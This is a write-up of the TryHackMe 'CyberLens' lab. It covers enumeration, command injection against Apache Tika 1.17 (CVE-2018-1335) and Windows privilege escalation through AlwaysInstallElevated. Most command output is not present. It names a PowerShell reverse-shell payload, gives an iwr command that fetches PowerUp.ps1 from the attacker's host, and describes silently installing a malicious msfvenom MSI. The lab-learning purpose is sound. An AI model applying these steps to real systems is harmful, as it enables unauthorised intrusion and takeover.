


# CyberLens - TryHackMe 

---

This is a writeup for the easy CTF "CyberLens" on TryHackMe. This room is located at https://tryhackme.com/r/room/cyberlensp6 and is a free room. I am documenting the process I used to find all information in this writeup **WITHOUT** including any flags, in the spirit of the game. However, following this process exactly should result in a full compromise of the target system.

Finally, this room is easily solved using Metasploit, and this is far simpler and likely the best way to solve. However, as this is intended to be an OSCP-like lab, I will be presenting this writeup without the use of Metasploit.

---

## Recon, Scanning, and Enumeration

My first step was to export the box's IP address to a variable that I could use easily for the rest of the engagement. Next I pinged the box to ensure that it was alive and ready for enumeration:

Next I ran a quick `nmap` scan to see which ports were responding on the host: 

After that I wanted to further enumerate the service versions and run some basic `nmap` scripts against these ports:

There is another important port open on this machine, but we will discover that through further enumeration later, so at this point we will not need to run a full ports scan.

We see that we have an Apache HTTP server running on port 80, as well as RPC, SMB, and RDP, services that are commonly seen on Windows servers. The most actionable of these is HTTP, so we'll pivot to enumerating the webpage next.

The web root hosts a "Welcome to CyberLens" homepage, with an interesting link to the "CyberLens Image Extractor:"

This appears to be a file upload portal that will evaluate the metadata of the uploaded file:

If we upload an arbitrary file and intercept the web request with Burp Suite, we can see that this upload functionality is making an OPTIONS request to cyberlens.thm (our hostname) at port 61777, and trying to make a PUT request for the file we are uploading:

We can confirm that there is indeed a service running on port 61777, and interestingly it is running Apache Tika 1.17:

## Initial Access

A quick Google search shows that there is a command injection vulnerability in Apache Tika. When your first result on an exploit search is from Rapid7, there's a good chance that there's a Metasploit module for the exploit you are researching, and that is the case for us. We won't use it for this writeup, but if you are only interested in the quick points, this exploit is very point-and-click. 

Note also that there is [an article from Rhino Security Labs](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/){:target="_blank"}, written by the researcher, David Yesland, and discussing in depth the discovery and mechanics of the vulnerability. This is worth a read.

Finally, we can see that exploit code has been posted to Github, which is an OSCP-friendly route, if you're trying to practice saving your Metasploit usage:

I ended up using the exploit from [the Rhino Security Labs github](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335){:target="_blank"}, written by David Yesland and adapted to python3 by Tyler Ramsbey (the creator of this lab). I had a couple of minor issues with the current version of the script, so I have [a forked version](https://github.com/bradyjmcl/Rhino-Sec-CVEs/blob/bradyjmcl-patch-1/CVE-2018-1335/CVE-2018-1335.py){:target="_blank"} that I will use for this demonstration.

After reviewing the script, we can see that it takes three arguments - the IP address, the Tika port, and the command that we want to run. Since our command will be multiple arguments, we will need to wrap it in quotes. I will be using the "PowerShell #3 (Base64)" payload from revshells.com:

## Privilege Escalation

Now that we have access to a user account, it's time to escalate our privileges to system-level. A fan-favorite for enumerating privilege escalation vectors is WinPEAS, but since this wasn't running properly in my PowerShell reverse shell, I used PowerUp.ps1, which we can upload with a method of our choice (I used `powershell iwr http://<my IP>/powerup.ps1 -Outfile C:\users\public\powerup.ps1` to download from a python3 HTTP server, hosted using `python3 -m http.server 80`), and run on the host. We have to first load the PowerShell module, then run the Invoke-AllChecks function:

Here, we can see that the AlwaysInstallElevated registry keys are enabled. We could check these manually, if we needed confirmation that the script is working properly:

With these keys enabled, all users are able to run Windows Installer Files (.msi) with elevated privileges. We can use `msfvenom` to create a malicious installer file, which we can use to run arbitrary commands:

Since I already know that this PowerShell reverse shell payload works, I'm just going to re-use it to get an elevated reverse shell. You could also use the windows/exec commands to add users to groups or add privileges to our current user, but we can just do those with our elevated shell if we need to.

Now that we have our malicious installer file generated, it's just a matter of uploading this file and running it. We can use `msiexec` with the `/quiet` flag to specify that no user interaction is required, `/qn` to specify that there is no UI during the "installation," and `/i` to specify normal "installation." With these flags, we should be able to get a system-level shell:

Thanks to TeneBrae93 for the creation of this challenge!
